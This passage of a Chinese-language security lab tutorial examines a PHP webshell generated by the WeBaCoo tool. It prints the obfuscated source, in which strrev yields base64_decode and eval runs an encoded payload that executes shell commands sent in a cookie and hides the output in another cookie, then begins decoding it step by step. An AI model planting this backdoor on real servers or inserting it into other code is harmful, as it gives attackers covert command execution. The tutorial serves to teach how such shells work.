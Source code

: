 使用 `ls` 命令查看当前目录下的文件，确认是否已经生成了木马文件：

![图片描述](https://dn-simplecloud.shiyanlou.com/uid/212008/1481013974754.png-wm)

### 4.2  PHP 木马源码原理解析

作为一名信息安全人士，满足于工具的使用是远远不够的。对于对木马的形成原理，以及木马中的代码如何运行，需要有一定的了解。其中使用 WeBaCoo 工具的 `-r` 参数，生成的木马文件源码更加复杂。这里为了方便解释其最核心的代码原理，文档中没有使用 `-r` 参数，这样生成了木马文件更加方便理解。接下来使用 `cat` 命令，对生成的 PHP 木马代码源码进行查看：

```
# 输入 cat 命令，查看生成的木马代码源码
cat hello.php
```
生成的木马文件，其代码如下所示，其中的核心部分为：

```
<?php 

$b=strrev("edoced_4"."6esab");

eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = ")));

?>
```
> Base64 编码是一种 “防君子不防小人” 的编码方式。广泛应用于 MIME 协议，作为电子邮件的传输编码，生成的编码可逆，后一两位可能有“=”，生成的编码都是 ascii 字符。

其中第一行代码的 `strrev()` 函数的作用是将字符串反转，并将反转后的字符串变量赋值给 `$b`，即：

```
# 经过函数 strrev() 处理后得到的代码
$b = "base64_decode";
```
对于下面的经过 `base64` 加密过的字符串，并且每个字符之间混夹着一个空格，我们可以使用 `Python` 对字符串进行还原，显现出其真正的代码面目，加深对木马源码的理解（**注意：下面将代码反解的过程，不用在实验楼环境中操作，这里只是为了让同学们能够清晰地看到，由 WeBaCoo 创建的 PHP 木马的原本真实源码**）：


![图片描述](https://dn-simplecloud.shiyanlou.com/uid/ff207c4ac994ae597a753f238bd6b2de/1481618443849.png-wm)

首先先进行去掉空白空格的操作，得到经过 Base64 加密杂乱无序的字符串：

```
# 替换掉其中的空格
s = s.replace(' ', '')

# 得到经过 Base64 加密过的代码字符串
aWYoaXNzZXQoJF9DT09LSUVbJ2NtJ10pKXtvYl9zdGFydCgpO3N5c3RlbShiYXNlNjRfZGVjb2RlKCRfQ09PS0lFWydjbSddKS4nIDI+JjEnKTtzZXRjb29raWUoJF9DT09LSUVbJ2NuJ10sJF9DT09LSUVbJ2NwJ10uYmFzZTY0X2VuY29kZShvYl9nZXRfY29udGVudHMoKSkuJF9DT09LSUVbJ2NwJ10pO29iX2VuZF9jbGVhbigpO30=

```
